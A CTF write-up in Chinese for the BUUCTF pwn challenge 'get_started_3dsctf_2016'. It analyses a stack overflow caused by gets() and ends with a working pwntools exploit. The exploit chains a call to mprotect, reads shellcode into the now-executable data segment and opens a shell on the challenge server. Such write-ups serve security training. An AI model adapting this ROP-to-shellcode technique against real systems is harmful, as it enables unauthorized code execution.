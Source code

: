 ```yaml
---
author: 
  name: Zephyr
title: get started 3dsctf 2016
date: 2022-3-21 13:25:03
permalink: /pages/2e1547494524d184
tags: 
  - buuctf
  - pwn
  - StackOverflow
---
```


# get started 3dsctf 2016

## 前提

### 查看文件保护

```shell
[*] '/root/pwn/buuctf/get_started_3dsctf_2016/get_started_3dsctf_2016'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

## 静态分析

主函数如下

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char v4; // [esp+4h] [ebp-38h]

  printf("Qual a palavrinha magica? ", v4);
  gets(&v4);
  return 0;
}
```

部分程序表如下

![get_started_3dsctf_2016_1](https://cdn.jsdelivr.net/gh/Zephyrccc/ImageHostingService/blog/get_started_3dsctf_2016_1.png)

## 思路分析

1. 目前信息：
   - 明显的栈溢出漏洞
   - No PIE
   - 程序开启了NX保护
   - 程序表内有mprotect函数
1. 补充：
   - 在Linux中，mprotect函数可以用来修改一段指定内存区域的保护属性，函数原型如下

```c
int mprotect(const void *start, size_t len, int prot);
// start 为mprotect函数的第一个参数 (被修改内存的地址) 常用.got.plt/.bss起始地址
// len   为mprotect函数的第二个参数 (被修改内存的大小) 通过程序启动时查看该内存块的大小得到
// prot  为mprotect函数的第三个参数 (被修改内存的权限) 7 = 4 + 2 +1 (rwx)
```



3. 思路:
   - 本题存在mprotect函数，且无PIE保护，选择栈溢出到mprotect处修改权限，在数据段直接写入shellcode并返回执行

## exp

```python
from pwn import *
context(os='linux', arch='i386', log_level='debug')
pwnfile = '/root/pwn/buuctf/get_started_3dsctf_2016/get_started_3dsctf_2016'
# io = process(pwnfile)
io = remote('node4.buuoj.cn', 27774)
elf = ELF(pwnfile)
padding = 52+4
mprotect_addr = elf.symbols[b'mprotect']
read_addr = elf.symbols[b'read']
data_start = 0x80EA000
pop_3times_ret = 0x804f460
lenth = 0x2000
rwx = 7
payload = flat(['a'*padding, mprotect_addr, pop_3times_ret, data_start,lenth, rwx, read_addr, data_start, 0, data_start, 0x200])
io.sendline(payload)
payload = asm(shellcraft.sh())
io.sendline(payload)
io.interactive()
```